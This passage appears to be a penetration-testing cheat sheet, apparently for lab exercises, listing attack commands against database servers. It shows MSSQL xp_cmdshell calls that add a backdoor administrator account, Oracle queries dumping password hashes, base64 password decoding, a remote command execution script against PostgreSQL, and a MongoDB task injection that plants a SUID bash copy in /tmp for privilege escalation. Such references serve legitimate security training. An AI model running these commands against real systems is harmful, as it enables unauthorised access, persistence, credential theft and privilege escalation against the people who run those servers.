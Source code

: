             2> go
        - Create an admin user
            > EXEC master..xp_cmdshell 'type C:\Users\Administrator\Desktop\proof.txt'
            > go
            > EXEC master..xp_cmdshell 'net user /add cooldude password123'
            > go
            > EXEC master..xp_cmdshell 'net localgroup administrators cooldude /add'
            > go
    - mysql client commands
        > mysql -h 10.11.1.111 -u root -p
        > mysql -h 10.11.1.111 --port 330006 -u root -p
        > show databases;
        > use users;
        > SHOW TABLES;
            > select * from TABLE;
            or to view a table that is too big
            > select * from TABLE\G
        > CREATE TABLE <table name> (id VARCHAR(20), firstname VARCHAR(20), lastname VARCHAR(20), username VARCHAR(8), email VARCHAR(35), password VARCHAR(25));
        > INSERT into <table name> (id, firstname, lastname, username, email, password) VALUES (‘1’, ‘Yeah’, ‘Hub’, ‘yeahhub’, ‘yeahhub@gmail.com’, ‘123456’);
        - Convert base64 passwords ("username" is the users column in the table, "password" password column "users" is the table)
            > SELECT username, CONVERT(FROM_BASE64(FROM_BASE64(password)),CHAR) FROM users;
    - sqlplus client commands (used for oracle)
        - Connect as regular user
            - sqlplus username/password@<serverip>/<DBMS>
                > sqlplus scott/tiger@10.10.10.82:1521/XE
        - Connect as sysdba
            - sqlplus username/password@<serverip>/<DBMS>
                > sqlplus scott/tiger@10.10.10.82:1521/XE as sysdba
        - PLSQL commands:
            > select name, passwd from sys.EXU8USRU;
            > select * from user_role_privs;
            > select * from v$version;
            > select * from all_users;
            > SELECT * FROM USER_SYS_PRIVS; 
            > select * from user_tab_privs;
    - postgres sql
        - Connect to the server remotely
            > psql -h 192.168.190.60 -U postgres -W 
            > psql -h 192.168.190.60 -U postgres -W postgres -p 5437
        - commands
            - List databases
                > \list
            - use a database
                > \c <database name>
            - list tables
                > \d
            - get users roles
                > \du+
        - psql cmd execution
            > psql-mass-rce.py 192.168.91.47 --port 5437 --command "whoami"
    - mongodb (27017):
        > mongo --host 192.168.69.69
        > mongo --host 192.168.69.69 --port 12345
        > db
        > use <db name>
        > mongo -p password -u mark scheduler
        - once in the scheduler add a line to create suid binary in /tmp
            > db.tasks.insert( { "cmd": "/bin/cp /bin/bash /tmp/puckbash; chmod u+s /tmp/puckbash;" } );
        - run binary to be said user
            > /tmp/puckbash -p
